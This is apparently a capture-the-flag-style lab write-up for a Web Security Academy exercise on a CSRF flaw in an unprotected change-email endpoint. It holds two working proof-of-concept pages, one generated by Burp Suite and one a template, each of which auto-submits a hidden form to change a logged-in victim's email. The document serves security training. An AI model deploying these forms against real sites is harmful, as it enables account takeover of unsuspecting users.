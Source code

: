 ## CSRF vulnerability with no defenses
- POST request to /my-account/change-email does not have any CSRF protections. 
- We utilize Burp Suite to generate a CSRF PoC to use on our exploit server to solve the lab. 
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a5500bb03f12bbb808b087b0084007c.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="fake&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Miscellaneous Notes
- Basic CSRF PoC template for **CSRF vulnerability with no defenses**:
```
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="anything%40web-security-academy.net">
</form>
<script>
        document.forms[0].submit();
</script>
```
